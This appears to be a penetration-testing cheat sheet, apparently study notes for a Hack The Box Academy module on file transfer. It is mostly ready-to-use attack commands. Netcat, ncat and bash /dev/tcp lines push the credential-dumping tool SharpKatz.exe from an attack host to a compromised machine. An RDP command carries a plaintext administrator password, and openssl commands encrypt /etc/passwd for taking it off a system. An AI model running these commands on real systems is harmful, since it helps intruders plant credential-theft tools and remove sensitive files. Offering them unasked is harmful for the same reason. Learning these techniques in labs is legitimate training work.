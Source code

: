 ### Miscellaneous File Transfer Methods


| **Command** | **Description** |
| --------------|-------------------|
| **File Transfer with Netcat and Ncat** | |
| `nc -l -p 8000 > SharpKatz.exe` |  NetCat - Compromised Machine - Listening on Port 8000 |
| `ncat -l -p 8000 --recv-only > SharpKatz.exe` | Ncat - Compromised Machine - Listening on Port 8000 |
| `nc -q 0 192.168.49.128 8000 < SharpKatz.exe` | Netcat - Attack Host - Sending File to Compromised machine |
| `ncat --send-only 192.168.49.128 8000 < SharpKatz.exe` | Ncat - Attack Host - Sending File to Compromised machine |
| `sudo nc -l -p 443 -q 0 < SharpKatz.exe` | Attack Host - Sending File as Input to Netcat |
| `nc 192.168.49.128 443 > SharpKatz.exe` | Compromised Machine Connect to Netcat to Receive the File |
| `sudo ncat -l -p 443 --send-only < SharpKatz.exe` | Attack Host - Sending File as Input to Ncat |
| `ncat 192.168.49.128 443 --recv-only > SharpKatz.exe` | Compromised Machine Connect to Ncat to Receive the File |
| `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe` | If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/, Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File |
| | |
| [PowerShell Session File Transfer](https://academy.hackthebox.com/module/24/section/161) | |
| | |
| **RDP** | |
| `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer` | Mounting a Linux Folder Using xfreerdp- To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session. |

### File Encryption on Windows 

| **Command** | **Description** |
| --------------|------------------- |
| **File Encryption on Windows** | |
| `Import-Module .\Invoke-AESEncryption.ps1` | Import Module Invoke-AESEncryption.ps1 -PWSH |
| `Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt` | File Encryption Example -PWSH |
| | |
| **File Encryption on Linux** | |
| `openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc` | Encrypting /etc/passwd with openssl |
| `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd` | Decrypt passwd.enc with openssl |

### [Catching Files over HTTP/S](https://academy.hackthebox.com/module/24/section/681)
